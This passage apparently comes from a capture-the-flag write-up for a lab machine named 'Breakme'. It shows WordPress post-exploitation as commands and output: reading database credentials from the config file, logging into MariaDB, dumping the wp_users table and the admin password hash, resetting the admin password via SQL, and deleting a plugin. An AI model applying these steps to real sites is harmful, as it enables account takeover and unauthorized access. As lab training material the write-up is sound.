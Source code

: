 ```bash
/** Database password */
define( 'DB_PASSWORD', 'SuP3rS3cR37#DB#P@55wd' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

Access DB:
```bash
mysql -u econor -p -h localhost wpdatabase
www-data@Breakme:/var/www/html/wordpress$ mysql -u econor -p -h localhost wpdatabase

Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 387
Server version: 10.5.19-MariaDB-0+deb11u2 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [wpdatabase]>
```

Command:
```bash
SHOW TABLES;
```

Users:
```bash
SELECT * FROM wp_users;
```

Admin User:

admin
admin@localhost.com 

Admin password:
$P$BlnXZ2omtPVcOotjXqtdQrN.IS0tqU.

Reset the Password via SQL (Recommended)
```bash
UPDATE wp_users SET user_pass = MD5('12345678') WHERE user_login = 'admin';
```

Remove plugin:
```bash
rm -rf breakme
```

Access as admin:
